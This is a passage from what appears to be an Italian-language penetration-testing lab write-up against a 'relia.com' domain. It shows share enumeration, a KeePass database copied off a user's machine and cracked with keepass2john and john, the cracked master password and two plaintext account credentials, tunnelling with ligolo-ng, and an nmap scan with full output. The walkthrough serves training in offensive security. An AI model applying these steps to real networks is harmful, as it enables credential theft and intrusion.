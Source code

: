 Domain shares:

```bash
Find-DomainShare -CheckShareAccess
```

```bash
Name           Type Remark              ComputerName  
----           ---- ------              ------------
ADMIN$   2147483648 Remote Admin        WK01.relia.com
C$       2147483648 Default share       WK01.relia.com
NETLOGON          0 Logon server share  DC02.relia.com
SYSVOL            0 Logon server share  DC02.relia.com
apps              0                     FILES.relia...
monit...          0                     FILES.relia...
scripts           0                     FILES.relia...
```

Girovagando tra le directory trovo il db C:\Users\jim\Documents\Database.kdbx e lo trasferisco sulla mia macchina tramite scp.

Utilizzando john riesco a ricavare la password per aprirlo:

```bash
keepass2john database.kdbx > Keepasshash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes1        (database)     
1g 0:00:00:00 DONE (2024-05-26 09:52) 16.66g/s 84800p/s 84800c/s 84800C/s andrade..elsalvador
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Qui trovo una serie di password:

```bash
dmzadmin:SlimGodhoodMope
jim:Castello1!
```

Faccio il tunneling della rete 172.16.156.0/24 tramite ligono-ng e lancio nmap su quest macchina:

```bash
sudo nmap -sC -sV -O 172.16.156.14
```

```bash
Nmap scan report for 172.16.156.14 (172.16.156.14)
Host is up (0.021s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-05-26T14:32:21+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=WK01.relia.com
| Not valid before: 2024-05-11T16:20:11
|_Not valid after:  2024-11-10T16:20:11
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WK01
```